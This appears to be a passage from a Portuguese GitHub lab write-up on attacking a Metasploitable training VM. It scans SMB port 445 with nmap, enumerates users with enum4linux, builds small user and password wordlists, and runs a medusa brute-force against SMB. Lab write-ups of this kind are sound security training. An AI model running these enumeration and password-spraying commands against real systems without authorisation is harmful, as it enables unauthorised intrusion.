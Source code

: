 ```bash
nmap -sV -p 445 192.168.56.4
```

---

<img width="709" height="278" alt="Captura de tela 2025-10-14 143806" src="https://github.com/user-attachments/assets/0d38388b-eae0-4876-ba5b-cc19b68cc231" />

---

Na imagem, podemos ver que a porta 445 está com o status `open`, ou seja, está aceitando acesso sem filtragem do firewall. Nesse caso, podemos iniciar a enumeração na porta para coletar o máximo de informações possíveis do host. Além disso, vamos guardar as informações em um arquivo em formato `txt` chamado de enum4_output. Segue o comando:

```bash
enum4linux -a 192.168.56.4 | tee enum4_output.txt
```

---

Após a enumeração e análise do arquivo foi encontrado os usuários do metasploitable:

<img width="825" height="517" alt="Captura de tela 2025-10-14 150140" src="https://github.com/user-attachments/assets/ecee79bd-9a4d-43f5-b864-cd501987b695" />

### Criação das wordlists

Com as informações dos possíveis usuários, podemos seguir para a criação das wordlists. Segue os comandos abaixo:

Criação dos usuários
```bash
echo -e "user\nmsfadmin\nservice" > smb_users.txt
```

---

Criação das senhas
```bash
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt
```

### Aplicando o brute force no serviço smb

Para iniciar o ataque de força bruta com o `medusa`, precisamos rodar o seguinte comando:

```bash
medusa -h 192.168.56.4 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```

---

<img width="1033" height="486" alt="Captura de tela 2025-10-14 145647" src="https://github.com/user-attachments/assets/38fa3a5e-c48f-4cdc-8583-23de2d0c2efd" />

---

### Teste de login com o usuário msfadmin

<img width="653" height="362" alt="image" src="https://github.com/user-attachments/assets/e5d8e4c7-b7c0-4949-9629-5160fd9c4276" />

